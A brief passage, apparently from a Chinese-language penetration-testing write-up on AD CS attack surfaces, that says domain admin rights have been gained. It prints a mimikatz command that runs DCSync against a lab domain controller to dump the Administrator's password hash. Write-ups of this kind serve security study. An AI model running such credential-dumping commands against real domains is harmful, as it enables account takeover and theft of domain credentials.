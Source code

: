 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/zdC8G3tZEU17roJ.png)

并且此时可以向域控执行 DCSync 操作并导出用户哈希，说明此时已经提升至了域管理权限，相关命令如下。

```console
C:\Users\Marcus\Desktop> mimikatz.exe "lsadump::dcsync /domain:pentest.com /user:PENTEST\Administrator" exit
```
